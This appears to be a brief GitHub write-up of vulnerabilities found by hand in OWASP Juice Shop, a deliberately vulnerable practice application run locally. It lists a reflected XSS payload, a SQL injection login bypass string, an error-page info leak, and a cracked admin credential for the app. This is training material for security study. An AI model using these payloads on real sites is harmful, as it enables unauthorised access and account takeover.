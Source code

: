 # Owasp_juice_shop

Vulns found manually exploiring the application (with no tools) 

## XSS: 
```
http://127.0.0.1:3000/#/search?q=hello%22%3E%3Cimg%2Fsrc%3Dx%20onerror%3Dalert(document.domain)%3E
```

## SQLI Auth bypass
```
' or 1=1-- -
```
On username field. Logs into admin account.
`url: http://127.0.0.1:3000/#/login`

## Express Error (info leak)(unexpected path)
```
http://127.0.0.1:3000/api/Score%20Board
```
![image](https://user-images.githubusercontent.com/5285547/214612212-7998421f-227f-4693-b479-e1c401d4b9f9.png)

## Using burp to capture the upload photo to wall. 

http://127.0.0.1:3000/dashboard#/photo-wall

![image](https://user-images.githubusercontent.com/5285547/214612717-51d87c1d-6155-4afc-89c6-af91b9d36698.png)

---

Found JWT token 

![image](https://user-images.githubusercontent.com/5285547/214613566-012e43c1-4f5d-4c5a-b4c2-24c7f1b0df34.png)

admin password showing cracked. 

```
admin:admin123
```


